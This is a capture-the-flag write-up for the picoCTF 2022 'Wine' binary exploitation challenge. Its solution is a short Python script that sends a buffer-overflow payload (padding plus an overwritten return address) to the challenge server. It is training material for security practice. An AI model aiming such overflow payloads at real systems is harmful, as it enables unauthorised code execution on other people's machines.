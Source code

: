 ```yaml
---
name: Wine (2022)
event: Pico CTF 2022
category: Pwn
description: Writeup for Wine (Pwn) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Wine

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/dAsujQ_OPEk/0.jpg)](https://youtu.be/dAsujQ_OPEk?t=3713 "Pico CTF 2022: Wine")

## Description

> Challenge best paired with wine.

## Solution

{% code overflow="wrap" %}
```py
import socket

payload = b'A' * 140
payload += b'\x30\x15\x40'
print('payload = ' + str(payload))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect(('saturn.picoctf.net', 62461))
print(s.recv(1024))
print(s.send(payload + b'\r\n'))
print(s.recv(1024))
s.close()
```
{% endcode %}
